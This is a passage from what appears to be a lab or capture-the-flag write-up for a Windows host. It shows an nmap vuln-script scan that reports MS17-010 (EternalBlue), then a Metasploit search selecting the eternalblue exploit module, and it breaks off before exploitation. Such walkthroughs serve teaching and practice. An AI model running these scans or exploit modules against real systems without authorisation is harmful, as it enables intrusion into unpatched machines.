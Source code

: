 `nmap` found three standard Windows ports in `RPC (135)`, `NetBios (139)`, and `SMB (445)` 

### Advanced Scan

>**nmap -p 445,135,139 --script vuln 10.10.54.33**

```js
PORT    STATE SERVICE
135/tcp open  msrpc
139/tcp open  netbios-ssn
445/tcp open  microsoft-ds

Host script results:
|_smb-vuln-ms10-054: false
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|           
|     Disclosure date: 2017-03-14
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
|       https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
|_      https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
|_smb-vuln-ms10-061: NT_STATUS_ACCESS_DENIED
|_samba-vuln-cve-2012-1182: NT_STATUS_ACCESS_DENIED
```

`Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)`

### Using MetaSploit To Gain Access

```js
msf > search ms17-010

Matching Modules
================

   #   Name                                           Disclosure Date  Rank     Check  Description
   -   ----                                           ---------------  ----     -----  -----------
   0   exploit/windows/smb/ms17_010_eternalblue       2017-03-14       average  Yes    MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption
   1     \_ target: Automatic Target                  .                .        .      .
   2     \_ target: Windows 7                         .                .        .      .
   3     \_ target: Windows Embedded Standard 7       .                .        .      .
   4     \_ target: Windows Server 2008 R2 
```

### Use 0 
